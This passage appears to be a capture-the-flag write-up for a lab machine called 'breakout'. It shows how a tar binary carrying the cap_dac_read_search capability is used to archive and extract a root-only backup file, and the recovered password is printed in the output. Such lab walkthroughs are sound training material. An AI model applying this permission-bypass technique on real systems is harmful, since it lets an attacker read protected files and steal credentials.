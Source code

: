 And then, we can doing a little bit of enumeration on the machine, we can see that there is a old_pass.bak file located in /var/backups but we don’t have the required permissions to view the file contents:

```shell
cyber@breakout:/var/backups$ ls -la
total 480
drwxr-xr-x  2 root root   4096 Nov 13 06:27 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Nov 13 06:25 alternatives.tar.0
-rw-r--r--  1 root root  12732 Oct 19  2021 apt.extended_states.0
-rw-r--r--  1 root root      0 Nov 13 06:25 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$ cat .old_pass.bak
cat: .old_pass.bak: Permission denied
```

return the `tar` file, it has the unnomal capability, learn capabilities more at [here](https://man7.org/linux/man-pages/man7/capabilities.7.html). Just check it:

```shell
cyber@breakout:~$ getcap tar
tar cap_dac_read_search=ep
```

The capability of `tar` file is `cap_dac_read_search`, It means that it can read all the files on the system irrespective of their permissions.

We can compress the contents of the old_pass.bak file in a tarball and then extract it. This should provide us the the required permissions to view the contents of the file.

```shell
cyber@breakout:~$ ./tar -cf pass.tar /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
cyber@breakout:~$ ls -la
total 580
drwxr-xr-x  8 cyber cyber   4096 Nov 13 07:05 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  2 cyber cyber   4096 Oct 19  2021 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 cyber cyber  10240 Nov 13 07:05 pass.tar
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Oct 20  2021 .tmp
drwx------ 17 cyber cyber   4096 Nov 13 06:35 .usermin
-rw-r--r--  1 cyber cyber     48 Oct 19  2021 user.txt
cyber@breakout:~$ ls
pass.tar  tar  user.txt
cyber@breakout:~$ tar -xf ./pass.tar
cyber@breakout:~$ ls
pass.tar  tar  user.txt  var
cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```
